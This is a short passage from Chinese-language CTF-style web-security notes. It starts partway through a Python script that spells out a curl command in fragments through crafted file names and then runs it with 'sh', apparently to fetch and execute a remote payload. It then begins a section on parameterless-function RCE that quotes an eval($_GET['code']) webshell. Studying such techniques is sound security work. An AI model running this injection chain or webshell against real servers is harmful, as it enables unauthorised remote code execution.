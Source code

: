 ```py
    '>0x\\',
    '>\ \\',
    '>rl\\',
    '>cu\\'
]
for i in list:
    time.sleep(1)
    url = baseurl+str(i)
    s.get(url)

for j in list2:
    time.sleep(1)
    url = baseurl+str(j)
    s.get(url)

s.get(baseurl+"sh x")
s.get(baseurl+"sh g")

```

## 无参数命令执行

[无参数命令执行](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/#%E5%89%8D%E8%A8%258)

> ### 什么是无参数函数RCE
>
> 传统意义上，如果我们有
>
> ```
> eval($_GET['code']);
> ```
>
> 
>
> 即代表我们拥有了一句话木马，可以进行getshell，例如